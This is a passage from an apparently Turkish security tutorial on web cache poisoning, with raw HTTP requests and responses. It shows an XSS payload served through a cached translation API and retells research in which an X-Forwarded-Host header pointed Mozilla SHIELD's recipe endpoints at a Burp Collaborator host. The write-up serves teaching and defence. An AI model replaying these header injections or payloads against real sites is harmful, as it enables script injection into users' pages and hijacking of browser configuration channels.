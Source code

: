 Bu istek önbelleğe alındığında, arkaplanda otomatik olarak [linuxdersleri.net/api/i18n/en](http://linuxdersleri.net/api/i18n/en) adresindeki çeviri verisi çekilip ilgili ifade yerini alıyor olacak.  

```bash
GET  /api/i18n/en HTTP/1.1
Host: linuxdersleri.net
```

```bash
HTTP/1.1 200 OK
...
{"Show more":"<svg onload=alert(1)>"}
```

Dolayısıyla “Show more” ifadesinin yer aldığı tüm sayfalarda kullanıcılar XSS’e maruz kalacak.

### Mozilla SHIELD'ın ele geçirilmesi | **Hijacking Mozilla SHIELD**

James Kettle, [catalog.data.gov](http://catalog.data.gov/) üzerinde gerçekleştirdiği araştırma esnasında uyguladığı `XFH` başlığı için bul-değiştir kuralı sayesinde Mozilla Shield mekanizmasında da bir zafiyet keşfetmiş. Proxy üzerinde istekte yer alan tamamı küçük harfli `origin: null` başlığı dikkatini çekmiş. 

```bash
GET /api/v1/recipe/signed/ HTTP/1.1
Host: xyz.burpcollaborator.net
User-Agent: Mozilla/5.0 … Firefox/57.0
Accept: application/json
origin: null
X-Forwarded-Host: xyz.burpcollaborator.net
```

Peki bu `origin: null` ne anlama geliyor ve ne zaman kullanılır diye kısaca açıklayacak olursak:

1. **Yönlendirmeler**: Bir sayfa başka bir sayfaya yönlendirildiğinde, tarayıcı bazen yönlendirme sürecinde kaynak bilgisini kaybeder ve bu durumda "**null**" kökeni kullanır.
2. **Yerel HTML Dosyaları**: Yerel olarak açılan HTML dosyaları, internete bağlı olmadıkları için bir kökene sahip değildirler ve bu nedenle "**null**" kökeni kullanırlar.

---

Bu bilgi ışığında araştırmacı; proxy loglarını incelerken, Firefox’un pazarlama ve araştırma amacıyla uzantıları sessizce yüklemek için SHIELD sisteminin bir parçası olarak bir “recipes” yani 'tarifler' listesi getirmeye çalıştığını fark etmiş. `X-Forwarde-Host` başlığı da bu sistemi kandırıp “tarifleri” almak için Firefox’u araştırmacının kendi websitesine yönlendirdiğini görmüş.

```bash
GET /api/v1/ HTTP/1.1
Host: normandy.cdn.mozilla.net
X-Forwarded-Host: xyz.burpcollaborator.net
```

```bash
HTTP/1.1 200 OK
{
  "action-list": "https://xyz.burpcollaborator.net/api/v1/action/",
  "action-signed": "https://xyz.burpcollaborator.net/api/v1/action/signed/",
  "recipe-list": "https://xyz.burpcollaborator.net/api/v1/recipe/",
  "recipe-signed": "https://xyz.burpcollaborator.net/api/v1/recipe/signed/",
   …
}
```
